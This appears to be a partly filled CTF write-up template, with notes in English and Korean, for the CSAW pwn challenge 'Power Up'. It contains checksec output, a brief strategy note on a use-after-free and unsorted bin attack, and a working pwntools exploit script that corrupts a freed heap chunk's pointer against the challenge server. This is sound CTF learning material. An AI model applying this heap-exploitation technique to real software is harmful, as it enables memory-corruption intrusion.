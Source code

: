 # Power Up - CSAW
## Challenge Info
- Date: 2025
- CTF Name: CSAW
- Category: pwn
- Difficulty (subjective): easy/medium/hard
- Points:
- Provided Files: chal(ELF)
- tools:
## Brief Description
## Initial Analysis
### Environment
``` sh
checksec chal
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```
### Code
## Vulnerability
## Exploit
### Strategy
Double Free Bug -> create module 로직을 보면 할당 크기가 엄청 커야 하는데 이러면 tcache를 안 씀, 따라서 Unsorted Bin Attack (또는 Unsorted Bin Poisoning) 활용  
Use After Free -> 이건 가능
### Exploitation Steps
### Stack Frame of main
| Variable Name | Offset from EBP |
| --- | --- |
### payload
``` python
from pwn import *

p = remote('chals.ctf.csaw.io', 21005)

MODULE_SIZE = 4096
energy_addr = 0x00000000004040c0
modules_addr = 0x0000000000404060

def createModule(idx, size, data) :
    p.sendlineafter(b'>> ', b'1')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendlineafter(b'Data: ', data)
    print(p.recvline().decode().strip())

def deleteModule(idx) :
    p.sendlineafter(b'>> ', b'2')
    p.sendlineafter(b'Index: ', str(idx).encode())
    print(p.recvline().decode().strip())

def editModule(idx, data) :
    p.sendlineafter(b'>> ', b'3')
    p.sendlineafter(b'Index: ', str(idx).encode())
    p.sendlineafter(b'Data: ', data)
    print(p.recvline().decode().strip())

def power_up():
    p.sendlineafter(b'>> ', b'4')

# DFB 
createModule(0, MODULE_SIZE, b'A') 
createModule(1, MODULE_SIZE, b'B') 
deleteModule(0) # main_arena <- A

target_addr = energy_addr - 0x10
payload = p64(0) + p64(target_addr)
editModule(0, payload) # main_arena <- target_addr

createModule(2, MODULE_SIZE, b"trigger chunk")

power_up()

# interactive
p.interactive() 
```
